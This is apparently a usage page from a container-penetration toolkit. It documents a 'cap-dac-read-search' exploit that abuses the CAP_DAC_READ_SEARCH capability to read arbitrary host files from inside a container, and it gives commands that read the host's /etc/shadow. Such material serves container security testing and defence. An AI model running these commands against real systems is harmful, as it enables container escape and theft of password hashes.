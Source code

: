 # Exploit: cap-dac-read-search

If container is run with `CAP_DAC_READ_SEARCH` capability it is able to read arbitrary file from host system. This is possible because `CAP_DAC_READ_SEARCH` gives ability to bypass DAC (discretionary access control) checks and open files by file handles which are global file identifiers. Original exploit can be found at http://stealth.openwall.net/xSports/shocker.c.

# Usage

```
cdk run cap-dac-read-search <target> <ref>
# read target file from host. First argument is target file. Second argument is file bind-mounted to container from host
```

# Example

1. Build `cdk`
1. Run a docker container `docker run -it --rm --cap-add CAP_DAC_READ_SEARCH -v "$(pwd)/cdk":/cdk ubuntu /bin/bash` 1. Run `cdk` exploit inside the container `cdk run cap-dac-read-search /etc/shadow /etc/hosts`

You should get `/etc/shadow` from host:

![host-shadow](https://user-images.githubusercontent.com/18281368/116560938-83be8380-a90a-11eb-9c07-5c58cc7a19b8.png)

Verify that `/etc/shadow` from container is different:

![container-shadow](https://user-images.githubusercontent.com/18281368/116560929-81f4c000-a90a-11eb-8ed1-cce4692a6b48.png)